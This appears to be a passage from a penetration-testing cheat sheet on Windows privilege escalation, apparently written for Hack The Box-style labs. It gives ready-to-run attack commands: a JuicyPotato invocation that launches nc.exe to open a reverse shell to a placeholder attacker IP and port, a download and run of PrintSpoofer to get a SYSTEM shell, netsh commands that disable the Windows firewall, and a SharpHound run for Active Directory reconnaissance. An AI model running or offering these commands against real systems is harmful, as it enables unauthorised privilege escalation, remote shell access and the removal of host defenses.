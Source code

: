Use the uploaded nc.exe to get system shell

[https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise)

```powershell
JP.exe -t * -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe $yourip $yourport" -l 9002 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

### PrintSpoofer all you need

An alternative to JuicyPotato, where SeImpersonatePrivilege set and target OS is

```bash
Windows 8.1, Windows Server 2012 R2, Windows 10 and Windows Server 2019
```

```bash
wget https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe
```

```bash
PrintSpoofer.exe -i -c cmd
```

### Found custom program and want to analyze the program?

Trace library calls

```bash
ltrace <path/to/program>
```

### Windows netsh disable firewall

```bash
netsh advfirewall show allprofiles
```

```bash
netsh advfirewall set allprofiles state off
```

### Shutdown Windows System Command

```bash
shutdown -r -t 15 && exit
```

### Bloodhound & Sharphound Post-Exploit Privesc

[https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe)

On the target, run

```bash
.\SharpHound.exe --memcache -c all -d SUPPORT.HTB -DomainController 127.0.0.1
```
